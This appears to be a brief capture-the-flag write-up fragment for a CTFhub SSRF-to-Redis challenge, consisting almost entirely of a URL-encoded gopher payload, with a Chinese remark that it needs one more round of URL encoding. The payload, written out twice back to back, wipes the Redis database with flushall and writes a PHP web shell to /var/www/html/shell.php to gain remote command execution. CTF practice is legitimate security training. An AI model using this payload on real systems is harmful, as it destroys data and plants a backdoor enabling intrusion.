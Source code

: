 <u>*CTFhub --- web-ssrf-redis*</u>

#### Gopher

![img](daydayup.assets/1689445890678-9ea0f307-73ec-46e3-ae86-8755a0807333.png)

```c
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0Agopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

payload需要再进行一次url编码
